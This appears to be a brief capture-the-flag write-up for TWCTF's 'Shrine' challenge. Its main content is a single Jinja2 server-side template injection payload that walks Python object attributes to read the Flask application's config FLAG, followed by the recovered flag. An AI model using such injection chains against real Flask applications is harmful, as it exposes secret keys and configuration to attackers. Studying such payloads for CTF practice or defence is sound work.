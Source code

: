 # Shrine

Brute Force

And then, found flag in:

`{{request._get_data_for_json.__self__.__class__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app']._find_error_handler.__self__.__class__.__weakref__.__objclass__.get_send_file_max_age.__globals__['current_app'].config['FLAG']}}`

`TWCTF{pray_f0r_sacred_jinja2}`

